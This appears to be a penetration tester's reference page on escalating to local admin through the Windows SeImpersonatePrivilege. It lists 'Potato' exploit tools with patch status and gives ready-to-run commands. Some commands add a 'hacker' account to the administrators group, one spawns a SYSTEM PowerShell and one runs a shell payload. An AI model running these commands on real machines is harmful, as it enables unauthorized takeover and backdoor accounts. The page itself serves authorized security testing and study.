 ```yaml
---
title: SeImpersonatePrivilege
---
```


This [[notes/windows/privilege]] allows to impersonate any token for which you can get handle and can be leveraged to become to local admin.

# Tools

Name | Release | Compatibility
-----|---------|--------------
[EfsPotato](https://github.com/daem0nc0re/PrivFu/tree/main/ArtsOfGetSystem#efspotato) | 10.23. | Windows 11 22H2 via `\pipe\efsrpc`, unpatched ([source](http://web.archive.org/web/20231010120914/https://blog.hackvens.fr/articles/CoercedPotato.html), [source](https://twitter.com/daem0nc0re/status/1714613181191221743))
[CoercedPotato](https://github.com/hackvens/CoercedPotato) | 10.23. | Windows 10 - 11, Windows Server 2022, unpatched, tests multiple techniques ([source](http://web.archive.org/web/20231010120914/https://blog.hackvens.fr/articles/CoercedPotato.html))
[GodPotato](https://github.com/BeichenDream/GodPotato) | 04.23. | Windows Server 2012 - 2022, unpatched
[LocalPotato](https://github.com/decoder-it/LocalPotato) | 02.23. | Windows 10 - 11 | patched January 2023, but relay to local WebDAV won't be fixed ([source](https://twitter.com/decoder_it/status/1652309476530085889))
[RasmanPotato](https://github.com/crisprss/RasmanPotato) | 02.23. | Windows 10, Windows Server 2012 - 2019, unpatched
[McpManagementPotato](https://github.com/zcgonvh/DCOMPotato) | 12.22. | Windows 10 21H2 confiremd, unknown ([source](https://twitter.com/secu_x11/status/1675481117384646656))
[PrintNotifyPotato](https://github.com/BeichenDream/PrintNotifyPotato) | 12.22. | Windows 10 - 11, Windows Server 2012 - 2022, unpatched
[JuicyPotatoNG](https://github.com/antoniococo/juicypotatong) | 10.22. | Windows 10 - 11 22H2, up to Windows Server 2022, default CLSID patched on Windows 11 22H2 ([source](https://github.com/antonioCoco/JuicyPotatoNG/issues/4)), but `{A9819296-E5B3-4E67-8226-5E72CE9E1FB7}` still works on 22H2 ([source](http://web.archive.org/web/20231104184420/https://raw.githubusercontent.com/antonioCoco/infosec-talks/main/10_years_of_Windows_Privilege_Escalation_with_Potatoes.pdf))
[DiagTrackEoP](https://github.com/wh04m1001/diagtrackeop) | 07.22. | at least Windows Server 2019
[SweetPotato](https://github.com/CCob/SweetPotato) | 05.22. | implements RottenPotato, RogueWinRM, JuciyPotato, PrintSpoofer and EfsPotato, Windows Server 2008 to 2019
[EfsPotato](https://github.com/zcgonvh/EfsPotato) | 11.21. | unknown
[RemotePotato0](https://github.com/antonioCoco/RemotePotato0) | 08.21. | patched since October 2022 ([source](https://twitter.com/splinter_code/status/1583555613950255104))
[Gotato](https://github.com/iammaguire/Gotato) | 07.21. | GenericPotato in Go
[GenericPotato](https://github.com/micahvandeusen/GenericPotato) | 04.21. | creates HTTP or named pipe listener and impersonates users that connect, requires separate trigger
[JuicyPotato](https://github.com/ohpe/juicy-potato) | 03.21. | improved RottenPotatoNG, up to Windows Server 2016, patched since Windows 10 1809 and Windows Server 2019
[RoguePotato](https://github.com/antoniococo/roguepotato) | 05.20. | at least up to Windows Server 2019
[PrintSpoofer.NET](https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/PrintSpoofer.NET) | 03.21. | variant that does not require interactive logon
[PrintSpoofer](https://github.com/itm4n/printspoofer) | 05.20. | at least up to Windows Server 2019, unpatched
[RogueWinRM](https://github.com/antonioCoco/RogueWinRM) | 02.20. | patched on Windows 11 22H2 ([source](https://twitter.com/decoder_it/status/1616515769088737280))
[GhostPotato](https://github.com/Ridter/GhostPotato) | 11.19. | patched since 2019
[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) | 12.17. | improved RottenPotato
[RottenPotato](https://github.com/foxglovesec/RottenPotato) | 12.17. | patched since Windows 10 1809 and Windows Server 2019
[HotPotato](https://github.com/foxglovesec/Potato) | 02.16. | patched since 2016

GodPotato on Windows Server 2019.

~~~ bat
.\GodPotato.exe -cmd "cmd /c net user hacker P@ssw0rd /add && net localgroup administrators hacker /add"
~~~

JuicyPotatoNG on Windows Server 2022.
On Windows 11 and Windows Server 2022 use class id `A9819296-E5B3-4E67-8226-5E72CE9E1FB7` ([source](http://web.archive.org/web/20221023144236/https://decoder.cloud/2022/09/21/giving-juicypotato-a-second-chance-juicypotatong/)).

~~~ bat
.\JuicyPotatoNG.exe -t * -p "c:\windows\system32\cmd.exe" -a "/c net user hacker P@ssw0rd /add && net localgroup administrators hacker /add"
~~~

PrintSpoofer on Windows Server 2019.

~~~ bat
.\PrintSpoofer.exe -c powershell.exe -i
~~~

JuicyPotato on Windows Server 2016.
Try [different CLSIDs](https://github.com/ohpe/juicy-potato/tree/master/CLSID/).

~~~ bat
.\JuicyPotato.exe -l 6666 -p %TEMP%\shell.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
~~~

References:

- [Exploring Impersonation through the Named Pipe Filesystem Driver](http://web.archive.org/web/20230504073128/https://scribe.rip/@specterops/exploring-impersonation-through-the-named-pipe-filesystem-driver-15f324dfbaf2)
- [In the Potato family, I want them all](http://web.archive.org/web/20230224075943/https://hideandsec.sh/books/windows-sNL/page/in-the-potato-family-i-want-them-all)
- [Giving JuicyPotato a second chance: JuicyPotatoNG](http://web.archive.org/web/20220922132749/https://decoder.cloud/2022/09/21/giving-juicypotato-a-second-chance-juicypotatong/)
- [Windows privilege escalation with potatoes](http://web.archive.org/web/20221020142112/https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
